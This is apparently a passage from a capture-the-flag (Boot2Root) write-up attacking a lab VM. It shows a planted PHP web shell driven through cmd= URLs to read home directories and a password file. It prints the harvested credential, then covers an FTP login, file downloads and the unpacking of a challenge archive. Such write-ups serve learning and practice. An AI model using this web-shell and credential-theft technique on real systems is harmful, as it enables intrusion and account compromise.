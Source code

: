 https://192.168.56.109/forum/templates_c/test.php?cmd=ls%20/home

LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz


https://192.168.56.109/forum/templates_c/test.php?cmd=ls%20/home/LOOKATME
https://192.168.56.109/forum/templates_c/test.php?cmd=cat%20/home/LOOKATME/password

here is another login and password: lmezard:G!@M6f4Eatau{sF"

we're going to try this login on the ssh and ftp server to check which one we can access to.


## FTP

ftp lmezard@192.168.56.109

```shell
➜  ~ ftp lmezard@192.168.56.109
Connected to 192.168.56.109.
220 Welcome on this server
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get README
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for README (96 bytes).
226 Transfer complete.
96 bytes received in 0,000396 seconds (237 kbytes/s)
ftp> get fun
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for fun (808960 bytes).
226 Transfer complete.
808960 bytes received in 0,0256 seconds (30,1 Mbytes/s)
```

readme contains "Complete this little challenge and use the result as password for user 'laurie' to login in ssh"

after using ```file fun``` we know that fun is a tar file

```shell
mv fun fun.tar
tar -xvf fun.tar
```

even though we could've read the file using vscode let's do it using grep getme *

previously while reading the raw tar i found the main function that looks like this
```C
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
```